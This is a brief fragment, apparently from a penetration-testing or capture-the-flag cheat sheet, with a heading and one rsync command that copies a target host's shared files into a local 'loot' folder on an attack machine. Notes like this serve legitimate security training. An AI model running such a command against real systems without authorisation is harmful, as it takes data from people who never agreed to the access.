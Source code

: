 ## Sync Target’s File to Attack Machine
```nix
rsync -av rsync://rsync-connect@10.10.10.10/files loot/
```